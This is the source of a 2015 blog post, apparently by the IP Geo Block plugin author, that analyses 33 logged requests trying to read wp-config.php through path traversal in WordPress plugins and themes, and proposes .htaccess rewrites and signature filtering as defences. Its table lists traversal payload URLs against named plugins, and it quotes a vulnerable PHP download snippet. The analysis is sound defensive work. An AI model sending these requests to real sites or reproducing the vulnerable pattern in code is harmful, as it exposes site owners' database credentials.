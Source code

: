 ```yaml
---
layout: post
title: "Prevent exposure of wp-config.php"
date: 2015-10-24 13:30:00
categories: article
published: true
script: []
inline:
---
```


From July to September in 2015, 33 types of malicious requests to attempt 
exposing the `wp-config.php` via vulnerable plugins and themes had been 
observed on my site. I analyzed all of them to identify if 
[IP Geo Block][IP-Geo-Block] can block them or not.

<!--more-->

Unfortunately, I could not find all the causes of exposure because most of 
them were already removed from the WordPress repository. So I can't say the 
right thing with confidence, but the only 2 of these could be blocked by 
[IP Geo Block 2.1.5 and under][IP-Geo-Block] even if they were from the 
forbidden countries.

In this article, I should clarify how to prevent exposure of `wp-config.php` 
against such malicous requests.

### Analysis of Attack Vectors ###

Before showing the results, I should explain about the description of the 
terms same as in [the previous article][Analysis].

{% highlight text %}
Attack Vector = Type x Path
{% endhighlight %}

where:

- **Type**: The type of vulnerability that an attacker can abuse. For example, 
  XSS, SQLI, LFI and so on. Also it includes some certain parameters which 
  are generally called "signature".
- **Path**: The path to the entrance into WordPress where an attacker can 
  deliver the certain type of vulnerability.

The "**Path**" can be categorized into below:

<table>
  <thead>
    <tr>
      <th>Abbreviation of Path</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><span class="label label-success">WP</span></td>
      <td style="text-align:left">It loads <strong>W</strong>ord<strong>P</strong>ress Core through <code>wp-load.php</code>.</td>
    </tr>
    <tr>
      <td><span class="label label-danger">PD</span></td>
      <td style="text-align:left">It is called <strong>P</strong>lugin <strong>D</strong>irectly without loading WP Core.</td>
    </tr>
    <tr>
      <td><span class="label label-warning">N/A</span></td>
      <td style="text-align:left">Unknown because the source code is <strong>N</strong>ot <strong>A</strong>vailable.</td>
    </tr>
  </tbody>
</table>

Here's the table of 33 requests that were attempted to expose `wp-config.php` 
in my site. Most of them were disclosed recently.
[IP Geo Block 2.1.5 and under][IP-Geo-Block] can only protect the **Path** of 
<span class="label label-success">WP</span>, while the 
<span class="label label-danger">PD</span> (and probably 
<span class="label label-warning">N/A</span>) can not **because those plugins 
and themes never load the WordPress core**.

<div class="table-responsive">
  <table class="table">
    <thead>
      <tr>
        <th>Type</th>
        <th>Path</th>
        <th>Disclosed</th>
        <th>Request</th>
      </tr>
    </thead>
    <tbody>
      <tr><!-- 1 -->
        <td><abbr title="Aribtrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-08-10</td><!-- PD/NG -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/37751/" title="WordPress WPTF Image Gallery 1.03 - Aribtrary File Download - Exploits Database">/wp-content/plugins/wptf-image-gallery/lib-mbox/ajax_load.php?url=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 2 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-16</td><!-- PD/NG https://github.com/wp-plugins/simple-image-manipulator -->
        <td class="left-align"><a href="http://www.vapid.dhs.org/advisory.php?v=147" title="Vulnerability">/wp-content/plugins/./simple-image-manipulator/controller/download.php?filepath=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 3 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-12</td><!-- PD/NG https://github.com/wp-plugins/candidate-application-form -->
        <td class="left-align"><a href="https://wpvulndb.com/vulnerabilities/8099" title="Candidate Application Form &lt;= 1.0 - Arbitrary File Download">/wp-content/plugins/candidate-application-form/downloadpdffile.php?fileName=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 4 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-09</td><!-- PD/NG https://wordpress.org/plugins/ibs-mappro/developers/ -->
        <td class="left-align"><a href="http://www.securityfocus.com/bid/75698" title="WordPress IBS Mappro Plugin 'download.php' Arbitrary File Download Vulnerability">/wp-content/plugins/ibs-mappro/lib/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 5 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://github.com/wp-plugins/image-export -->
        <td class="left-align"><a href="http://www.vapid.dhs.org/advisory.php?v=135" title="Vulnerabilit">/wp-content/plugins/image-export/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 6 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-07-05</td><!-- PD/NG https://wordpress.org/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/developers/ -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/37494/" title="WordPress S3Bubble Cloud Video With Adverts &amp; Analytics 0.7 - Arbitrary File Download - Exploits Database">/wp-content/plugins/s3bubble-amazon-s3-html-5-video-with-adverts/assets/plugins/ultimate/content/downloader.php?path=../../../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 7 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-05</td><!-- OK https://wordpress.org/plugins/wp-ecommerce-shop-styling/developers/ -->
        <td class="left-align"><a href="http://www.vapid.dhs.org/advisory.php?v=136" title="Vulnerabilit">/wp-content/plugins/wp-ecommerce-shop-styling/includes/download.php?filename=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 8 -->
        <td><abbr title="Remote File Download">RFD</abbr></td>
        <td><span class="label label-success">WP</span></td>
        <td>2015-07-02</td><!-- OK https://github.com/wp-plugins/wp-swimteam/commit/3652df6c40d493cebb3e19f414edb0898d636bd5 -->
        <td class="left-align"><a href="http://www.vapid.dhs.org/advisory.php?v=134" title="Vulnerabilit">/wp-content/plugins/wp-swimteam/include/user/download.php?file=../../../../../wp-config.php&amp;filename=../../../../../wp-config.php&amp;contenttype=text/html&amp;transient=1&amp;abspath=/usr/share/wordpress</a></td>
      </tr>
      <tr><!-- 9 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-06-10</td><!-- PD/NG https://github.com/wp-plugins/history-collection -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/37254/" title="WordPress History Collection &lt;= 1.1.1 - Arbitrary File Download - Exploits Database">/wp-content/plugins/history-collection/download.php?var=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 10 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-18</td><!-- N/A NG -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/131502/WordPress-WP-Mon-Arbitrary-File-Download.html" title="WordPress WP-Mon Arbitrary File Download - Packet Storm">/wp-content/plugins/wp-moN/Assets/download.php?type=octet/stream&amp;path=../../../../&amp;name=wp-config.php</a></td>
      </tr>
      <tr><!-- 11 -->
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-04-13</td><!-- N/A -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/36733/" title="WordPress Plugin 'WP Mobile Edition' 2.2.7 - Remote File Disclosure Vulnerability - Exploits Database">/wp-content/themes/mTheme-Unus/css/css.php?files=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 12 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2015-03-26</td><!-- PD/NG https://github.com/wp-plugins/aspose-cloud-ebook-generator/commit/1c51e382fed7f3025fbe4469a729fd0aea7a1231 -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/131040/WordPress-Aspose-Cloud-eBook-Generator-File-Download.html" title="WordPress Aspose Cloud eBook Generator File Download - Packet Storm">/wp-content/plugins/aspose-cloud-ebook-generator/aspose_posts_exporter_download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 13 -->
        <td><abbr title="Local File Disclosure">LFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2015-02-16</td><!-- N/A -->
        <td class="left-align"><a href="http://milw00rm.org/exploits/7497" title="Wordpress Justified Image Grid 2.0.1 - Multiple (LFD/XSS) Vulnerabilities">/wp-content/plugins/justified-image-grid/download.php?file=file:///var/www/wp-config.php</a></td>
      </tr>
      <tr><!-- 14 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/markant/download.php?file=../../wp-config.php</a></td>
      </tr>
      <tr><!-- 15 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/MichaelCanthony/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 16 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/felis/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr><!-- 17 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/SMWF/inc/download.php?file=../wp-config.php</a></td>
      </tr>
      <tr><!-- 18 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/TheLoft/download.php?file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 19 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/trinity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 20 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/urbancity/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 21 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-24</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/129706/WordPress-Themes-download.php-File-Disclosure.html" title="WordPress Themes download.php File Disclosure - Packet Storm">/wp-content/themes/yakimabait/download.php?file=./wp-config.php</a></td>
      </tr>
      <tr><!-- 22 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-07</td><!-- N/A -->
        <td class="left-align"><a href="https://wpvulndb.com/vulnerabilities/7710" title="ChurcHope Theme Local File Inclusion (LFI)">/wp-content/themes/churchope/lib/downloadlink.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 23 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-12-06</td><!-- N/A -->
        <td class="left-align"><a href="http://www.homelab.it/index.php/2014/12/06/wordpress-ajax-store-locator-arbitrary-file-download-vulnerability/" title="Wordpress Ajax Store Locator Arbitrary File Download Vulnerability">/wp-content/plugins/ajax-store-locator-wordpress_0/sl_file_download.php?download_file=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 24 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-09-09</td><!-- PD/NG https://github.com/wp-plugins/wp-support-plus-responsive-ticket-system/commit/42d48000a489206243beaabfe798d02d411bd330#diff-29 -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/34589/" title="WordPress WP Support Plus Responsive Ticket System 2.0 Plugin - Multiple Vulnerabilities - Exploits Database">/wp-content/plugins/wp-support-plus-responsive-ticket-system/includes/admin/downloadAttachment.php?path=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 25 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/34578/" title="WordPress Acento Theme view-pdf.php file param - Arbitrary File Download - Exploits Database">/wp-content/themes/acento/includes/view-pdf.php?download=1&amp;file=/path/wp-config.php</a></td>
      </tr>
      <tr><!-- 26 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-08</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/128188/WordPress-Antioch-Arbitrary-File-Download.html" title="WordPress Antioch Arbitrary File Download - Packet Storm">/wp-content/themes/antioch/lib/scripts/download.php?file=../../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 27 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A -->
        <td class="left-align"><a href="https://cxsecurity.com/issue/WLB-2014090037" title="Wordpress Authentic Theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/authentic/includes/download.php?file=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 28 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-07</td><!-- N/A http://www.organizedthemes.com/themes/epic/ -->
        <td class="left-align"><a href="http://cxsecurity.com/issue/WLB-2014090036" title="Wordpress epic theme Arbitrary File Download Vulnerability - CXSecurity.com">/wp-content/themes/epic/includes/download.php?file=wp-config.php</a></td>
      </tr>
      <tr><!-- 29 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-09-03</td><!-- N/A NG -->
        <td class="left-align"><a href="https://blog.sucuri.net/2014/09/slider-revolution-plugin-critical-vulnerability-being-exploited.html" title="Slider Revolution Plugin Critical Vulnerability Being Exploited - Sucuri Blog">/wp-admiN/Admin-ajax.php?action=revslider_show_image&amp;img=../wp-config.php</a></td>
      </tr>
      <tr><!-- 30 -->
        <td><abbr title="Local File Inclusion">LFI</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-04-14</td><!-- N/A -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/32861/" title="WordPress Theme LineNity 1.20 - Local File Inclusion - Exploits Database">/wp-content/themes/linenity/functions/download.php?imgurl=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 31 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2014-08-31</td><!-- N/A -->
        <td class="left-align"><a href="https://packetstormsecurity.com/files/128101/WordPress-NativeChurch-lote27-FR0_theme-acento-File-Download.html" title="WordPress NativeChurch / lote27 / FR0_theme / acento File Download - Packet Storm">/wp-content/themes/lote27/download.php?download=../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 32 -->
        <td><abbr title="Arbitrary File Download">AFD</abbr></td>
        <td><span class="label label-danger">PD</span></td>
        <td>2014-08-01</td><!-- https://github.com/wp-plugins/contus-video-gallery/releases -->
        <td class="left-align"><a href="https://wpvulndb.com/plugins/contus-video-gallery" title="WordPress Plugin: contus-video-gallery">/wp-content/plugins/contus-video-gallery/hdflvplayer/download.php?f=../../../../wp-config.php</a></td>
      </tr>
      <tr><!-- 33 -->
        <td><abbr title="Remote File Disclosure">RFD</abbr></td>
        <td><span class="label label-warning">N/A</span></td>
        <td>2011-09-19</td><!-- N/A http://plugins.svn.wordpress.org/filedownload/ -->
        <td class="left-align"><a href="https://www.exploit-db.com/exploits/17858/" title="WordPress Filedownload Plugin 0.1 - download.php Remote File Disclosure Vulnerability - Exploits Database">/wp-content/plugins/filedownload/download.php?path=../../../wp-config.php&amp;type=aplication/pdf</a></td>
      </tr>
    </tbody>
  </table>
</div>

### What's the cause? ###

As you can see, most of them had their own download function like 
`download.php`. Typical OMG <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f631.png)
</span> code in there are like this:

{% highlight php %}
<?php
$file = $_GET['file'];
if (file_exists('../../uploads/xxxx/'.$file)) {
    readfile('../../uploads/xxxx/'.$file);
    exit();
}
?>
{% endhighlight %}

This kind of vulnerability is caused by [Directory Traversal][OWASP] attack.

I'm not sure why some authers tend to such a direct requesting without loading 
WordPress core (do they mind speed?), but they should know [why so many 
WordPress plugins vulnerable][WhyVulerable] and absolutely use some of 
WordPress framework unless they can't keep their products secure by their own.

### How to protect my site against such OMG code? ###

First and foremost, we should consider to make the **Path** transformed from 
<span class="label label-danger">PD</span> and 
<span class="label label-warning">N/A</span> to
<span class="label label-success">WP</span>. If those plugins and themes would 
load WordPres core before they were excuted, [IP Geo Block][IP-Geo-Block] can 
have a chance to block the attacks.

So we should force those plugins and themes to load the `wp-load.php`. To 
achieve this, `.htaccess` in the plugins directory can be configured to 
rewrite a request to `rewrite.php` by following directives:

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteCond %{REQUEST_URI} !ip-geo-block/rewrite.php$
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

The absolute path `/wp-content/plugins/` should be changed according to your 
site configuration. And here's the example of `.htaccess` in the themes 
directory:

{% highlight text %}
# BEGIN IP Geo Block
<IfModule mod_rewrite.c>
RewriteEngine on
RewriteBase /wp-content/plugins/ip-geo-block/
RewriteRule ^.*\.php$ rewrite.php [L]
</IfModule>
# END IP Geo Block
{% endhighlight %}

Those will redirect a request, which is pointed to 
`/wp-content/plugins/.../*.php` and to 
`/wp-content/themes/.../*.php`, to the [rewrite.php][WritePHP] in 
[IP Geo Block][IP-Geo-Block] to load `wp-load.php` and then it will be 
validated by country code or WP-ZEP <span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f4aa.png)
</span>.

Another consideration for **Type** in **Attack Vector** is that 
[IP Geo Block][IP-Geo-Block] should filter out the "**Malicious signature**" 
such as `wp-config.php` or `passwd` to defence against attacks from the 
permitted countries.

I'll provide you this functionarity in the next release (may be 2.2.0) !! 
<span class="emoji">
![emoji](https://assets-cdn.github.com/images/icons/emoji/unicode/1f63c.png)
</span>

[IP-Geo-Block]: https://wordpress.org/plugins/ip-geo-block/ "WordPress › IP Geo Block « WordPress Plugins"
[OWASP]:        https://www.owasp.org/index.php/Path_Traversal "Path Traversal - OWASP"
[WritePHP]:     https://github.com/tokkonopapa/WordPress-IP-Geo-Block/blob/master/ip-geo-block/rewrite.php "WordPress-IP-Geo-Block/rewrite.php at master - tokkonopapa/WordPress-IP-Geo-Block"
[Analysis]:     {{ '/article/analysis-attack-vector.html' | prepend: site.baseurl }} "Analysis of Attack Vector against WP Plugins"
[WhyVulerable]: {{ '/article/why-so-vulnerable.html'      | prepend: site.baseurl }} "Why so many WordPress plugins vulnerable? | IP Geo Block"
